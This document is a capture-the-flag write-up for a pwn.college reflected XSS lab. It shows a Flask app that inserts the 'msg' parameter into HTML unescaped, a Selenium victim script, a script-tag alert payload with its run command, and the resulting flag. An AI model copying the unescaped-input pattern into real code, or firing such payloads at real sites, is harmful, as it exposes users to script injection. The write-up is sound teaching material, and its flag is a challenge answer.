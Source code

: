 # XSS 3 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a basic Flask web application that takes user input from the `msg` query parameter and reflects it on the page. Additionally, there is a headless browser (Selenium) acting as the victim that visits the crafted link and checks if a JavaScript alert is triggered.

## 🧪 Source Code Analysis

### 📄 `/challenge/server`

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def challenge_get():
    return f"""
        <html><body>
        <h1>pwnmsg ephemeral message service</h1>
        The message:
        {flask.request.args.get("msg", "(none)")}
        <hr>
        <form>
            Craft a message:
            <input type=text name=msg>
            <input type=submit value="Make URL!">
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```
The vulnerability lies in the fact that the msg parameter is directly injected into the HTML without any sanitization or encoding, resulting in a reflected XSS vulnerability.

### /challenge/victim
```python
#!/opt/pwn.college/python

import psutil
import urllib
import atexit
import time
import sys
import os

from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions
from selenium.webdriver.firefox.service import Service as FirefoxService
from selenium.webdriver.common.by import By
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, WebDriverException

os.setuid(os.geteuid())
os.environ.clear()
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

options = FirefoxOptions()
options.add_argument("--headless")
service = FirefoxService(log_path="/dev/null")
browser = webdriver.Firefox(service=service, options=options)
atexit.register(browser.quit)

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)

if len(sys.argv) == 1:
    print(f"Usage: {sys.argv[0]} URL")
    sys.exit(1)

challenge_url = sys.argv[1]

url_parsed = urllib.parse.urlparse(challenge_url)
if url_parsed.hostname != "challenge.localhost":
    print("Hostname should be 'challenge.localhost'.")
    sys.exit(2)
if url_parsed.port not in {None, 80}:
    print("Port should be 80.")
    sys.exit(3)

print(f"Visiting {challenge_url}")
browser.get(challenge_url)
try:
    WebDriverWait(browser, 1).until(EC.alert_is_present())
except TimeoutException:
    print("Failure: JavaScript alert did not trigger...")
    sys.exit(3)
else:
    print("Alert triggered! Your reward:")
    print(open("/flag").read().strip())
```
This script simulates a victim visiting the attacker’s crafted XSS URL. If an alert box is triggered, the flag is printed.

---

## Exploit
A simple XSS payload like the following is enough to trigger an alert:
```
http://challenge.localhost/?msg=<script>alert("PWNED")</script>
```
Run the following:
```bash
/challenge/victim 'http://challenge.localhost/?msg=<script>alert("PWNED")</script>'
```
Output:
```
Visiting http://challenge.localhost/?msg=<script>alert("PWNED")</script>
Alert triggered! Your reward:
pwn.college{w80D_zz1e13y2tS3mvOEVhcIOmQ.QX0kzMzwSM0IzMyEzW}
```

---

## Flag
```
pwn.college{w80D_zz1e13y2tS3mvOEVhcIOmQ.QX0kzMzwSM0IzMyEzW}
```

---
